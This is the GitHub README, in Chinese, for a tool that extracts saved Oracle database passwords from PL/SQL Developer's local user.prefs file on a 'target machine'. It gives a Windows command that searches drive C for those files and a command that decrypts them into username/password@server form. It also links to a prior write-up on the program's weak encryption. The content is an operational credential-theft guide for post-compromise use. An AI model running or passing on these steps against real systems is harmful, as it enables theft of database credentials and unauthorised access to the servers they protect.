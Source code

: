 # PLSQL_Crack_Pass
### Oralce 数据库连接工具 PLSQL Developer 保存在本地的密码抓取

根据目标机器上 `.Net` 版本使用对应的版本工具，Win2008推荐 `Net3.5` ，Win2012推荐 `Net4.0`

1、获取 user.prefs 文件所在的位置

`for /r c: %a in (*user.prefs) do @echo %a`

![images](https://github.com/TryA9ain/PLSQL_Crack_Pass/blob/master/1.png)

2、使用工具破解保存在本地的密码

`PLSQLCrackPass.exe -p user.prefs_Path`

`解密后结果为：<username>/<password>@<server>`

![images](https://github.com/TryA9ain/PLSQL_Crack_Pass/blob/master/2.png)

## 参考链接
https://adamcaudill.com/2016/02/02/plsql-developer-nonexistent-encryption/

https://github.com/adamcaudill/PLSQLDevPass

## 问题建议

欢迎大佬们提出问题或建议
